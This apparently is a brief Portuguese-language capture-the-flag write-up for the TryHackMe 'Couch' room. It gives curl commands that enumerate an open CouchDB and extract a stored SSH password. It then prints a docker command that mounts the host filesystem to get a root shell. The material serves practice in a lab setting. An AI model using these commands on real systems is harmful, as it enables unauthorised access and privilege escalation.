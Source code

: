 #ctf
# Couch
https://tryhackme.com/room/couch

## Recon

### NMAP

    PORT     STATE SERVICE
    22/tcp   open  ssh
    5984/tcp open  couchdb 1.6.1

### Enum CouchDB

#### Databases

```sh
curl -X GET http://<IP>:5984/secret/_all_dbs
```
- users
- couch
- secret

Usando o curl para poder puxar os dados:

```sh
curl -X GET http://<IP>:5984/secret/_all_docs
curl -X GET http://<IP>:5984/secret/a1320dd69fb4570d0a3d26df4e000be7
```
- **ID:** a1320dd69fb4570d0a3d26df4e000be7
- **passwordbackup:** atena:t4qfzcc4qN## -> ssh

OBS: Em /_utils é possível acessar a db pela web.

## Privesc

No __history__ tem um comando docker que da acesso ao root

```sh
docker -H tcp://127.0.0.1:2375 run --rm -ti -v /:/mnt alpine chroot /mnt /bin/sh
```
